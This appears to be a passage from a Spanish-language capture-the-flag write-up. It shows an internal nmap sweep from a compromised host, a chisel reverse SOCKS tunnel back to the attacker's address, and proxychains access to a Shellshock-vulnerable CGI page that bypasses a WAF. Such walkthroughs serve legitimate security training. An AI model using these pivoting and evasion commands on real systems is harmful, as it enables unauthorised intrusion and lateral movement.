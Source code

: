 Con todos los puertos

```null
root@ezra:/tmp# ./nmap -p- --open --min-rate 5000 -n -Pn $(./nmap --min-rate 5000 -n -sn 172.24.0.1/24 | grep -oP '\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}' | grep 172 | xargs)
Cannot find nmap-payloads. UDP payloads are disabled.
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-16 17:07 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.24.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000010s latency).
Not shown: 65532 closed ports, 2 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:BF:EF:41:72 (Unknown)

Nmap scan report for 172.24.0.2
Host is up (0.000018s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:18:00:02 (Unknown)

Nmap scan report for 172.24.0.252
Host is up (0.000017s latency).
Not shown: 65534 closed ports
PORT    STATE SERVICE
443/tcp open  https
MAC Address: 02:42:AC:18:00:FC (Unknown)

Nmap scan report for 172.24.0.253
Host is up (0.000029s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 4 IP addresses (4 hosts up) scanned in 81.68 seconds
```

Vuelvo a subir el ```chisel``` y creo otro tunel por SOCKS5, pero por otro puerto

```null
root@ezra:/tmp# ./chisel client 10.10.16.11:1234 R:2080:socks &>/dev/null & disown
```

Es importante que el proxychains esté configurado con una ```dinamic_chain``` y añadido el proxy correctamente. Ahora puedo acceder a la página que era vulnerable al shellsock, pero sin pasar por el WAF

```null
proxychains curl -s -X GET 172.24.0.2/cgi-bin/stats/
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
<pre>
Thu Mar 16 17:13:56 UTC 2023
17:13:56 up 58 min, 0 users, load average: 0.00, 0.02, 0.00
GNU bash, version 4.2.37(1)-release (x86_64-pc-linux-gnu) Copyright (C) 2011 Free Software Foundation, Inc. License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html> This is free software; you are free to change and redistribute it. There is NO WARRANTY, to the extent permitted by law.
Environment Variables:
<pre>
SERVER_SIGNATURE=<address>Apache/2.2.22 (Debian) Server at 172.24.0.2 Port 80</address>

```